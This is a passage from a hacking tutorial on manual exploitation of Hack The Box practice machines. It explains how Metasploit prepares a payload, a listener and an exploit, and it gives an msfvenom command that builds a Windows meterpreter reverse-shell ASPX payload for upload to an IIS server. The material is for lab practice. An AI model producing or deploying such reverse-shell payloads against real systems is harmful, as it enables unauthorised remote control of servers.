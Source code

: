 ```yaml
---
description: >-
  Take your hacking skills beyond automatic tools like Metasploit, to understand
  what hacking is really about.
---
```


# Part 2 - Hacking manually

## What do you learn in this part?

* Hacking manually with the Metasploit framework
* Linux terminal tricks
* Nmap options and scripts
* Credential abuse
* Privilege escalation
* Hacking more boxes!

**Boxes that are suitable for this part**

* Devel - 10.10.10.5
* Mirai - 10.10.10.48

**Other relevant boxes**

* * Blocky
* Optimum

## **Hacking manually with the Metasploit framework**

Previously we used Metasploit to automagically exploit a vulnerability and get a shell on a box. But what kind of black magic does Metasploit do? Let's break it down:

1. It prepares a payload - a reverse shell - the code that executes on the target.
2.  It prepares a listener/handler for receiving the reverse shell
3. It uses a prepared exploit to exploit a vulnerable service. Which means it gets code execution on the target, and is then able to execute the payload.

The listener catches the reverse shell connection - we now have a connection / reverse shell on the target, but we can't always rely on Metasploit to do this for us.

### 1 - Preparing the payload

First we prepare a payload with the correct file extension. The payload has to match your listener in Metasploit, and the technology on the target. Imagine a web-server running IIS, and we've found out we can upload files and where the files are put. Let's generate an ASPX-payload using msfvenom:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=your_ip_addr lport=4444 -f aspx -o yourname.aspx`

* -p = payload
* -f = format
* -o = outputfile.extension
